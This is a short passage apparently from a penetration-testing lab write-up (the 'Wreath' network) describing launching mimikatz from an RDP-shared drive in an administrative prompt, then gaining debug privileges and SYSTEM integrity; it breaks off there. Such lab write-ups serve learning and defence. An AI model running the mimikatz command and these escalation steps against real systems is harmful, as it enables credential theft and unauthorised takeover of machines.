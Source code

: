 ![alt-20](/assets/img/wreath-writeup/RDP.png)

Running the following command in an administrative command prompt will
start mimikatz.

`\\tsclient\share\mimikatz\x64\mimikatz.exe`

Next, I give myself debug privileges and elevate the integrity to SYSTEM
level.
